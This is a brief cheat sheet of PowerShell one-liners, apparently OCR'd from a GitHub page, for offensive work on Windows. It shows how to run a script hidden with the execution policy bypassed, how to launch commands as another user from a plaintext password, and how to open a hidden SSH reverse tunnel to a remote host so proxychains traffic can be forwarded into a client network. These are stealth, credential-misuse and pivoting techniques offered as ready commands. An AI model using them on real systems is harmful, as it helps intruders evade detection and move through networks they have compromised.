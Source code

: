 ### Start and creates a new process (detached)
```
Start-Process -wi 1 -FilePath "cmd" -ArgumentList "/c type <powershellScript> | powershell -WindowStyle Hidden -exec bypass"
```

### Start process as another user (-wi 1 to minimize window pop up)
```
$scp = ConvertTo-SecureString '<password>' -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $scp); start-process -wi 1 -FilePath "cmd.exe" -ArgumentList "/c <command>" -Credential $cred
```

### Forward proxychains traffic into client network
```
Start-Process -wi 1 -FilePath "powershell" -ArgumentList " -w hidden -c ssh -o 'StrictHostKeyChecking=no' -i $HOME\.ssh\<privateKey> -N -R 9050 <user>@<rhost>"
```

